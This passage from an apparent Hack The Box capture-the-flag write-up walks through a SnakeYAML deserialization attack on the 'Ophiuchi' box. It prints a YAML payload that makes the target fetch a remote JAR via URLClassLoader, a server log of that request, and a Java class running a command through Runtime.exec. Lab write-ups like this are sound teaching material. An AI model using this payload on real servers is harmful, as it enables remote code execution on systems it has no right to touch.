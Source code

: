 The blog post now writes some Java code which it compiles into a
`.class` file, and generates a folder structure for this request. I had
a bit of a struggle getting that to work. I created the
`/META-INF/services/javax.script.ScriptEngineFactory` file and the
compiled Class file. Ophiuchi would read that and then request the class
file, but then it would crash the page and not show any evidence of
executing my code.

Some Googling led to [this marshalsec
repo](https://github.com/mbechler/marshalsec) for all kinds of
Java-based deserialization attacks, and then the
[yaml-payload](https://github.com/artsploit/yaml-payload) repo, which
focuses on this specific SnakeYAML deserialization attack. The payload
looks exactly the same, but they put it into a JAR for loading. The YAML
part now tries to load a JAR file instead of a URL path:



    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
      ]]
    ]



Sending that now just requests the single file, and not the `META-INF`
path:



    10.10.10.227 - - [15/Feb/2021 06:52:56] code 404, message File not found
    10.10.10.227 - - [15/Feb/2021 06:52:56] "GET /yaml-payload.jar HTTP/1.1" 404 -



I'll clone the [yaml-payload
repo](https://github.com/artsploit/yaml-payload) to my VM and copy the
`src` folder into my folder for this box:



    oxdf@parrot$ cp -r src/ ~/hackthebox/ophiuchi-10.10.10.227/



I'll change to `src/artsploit/AwesomeScriptEngineFactory` file to
include a `ping` to my VM:



     10     public AwesomeScriptEngineFactory() {
     11         try {
     12             Runtime.getRuntime().exec("ping -c 1 10.10.14.7");
     13         } catch (IOException e) {
     14             e.printStackTrace();
     15         }
     16     }



Now compile that code, and then put it into a JAR:
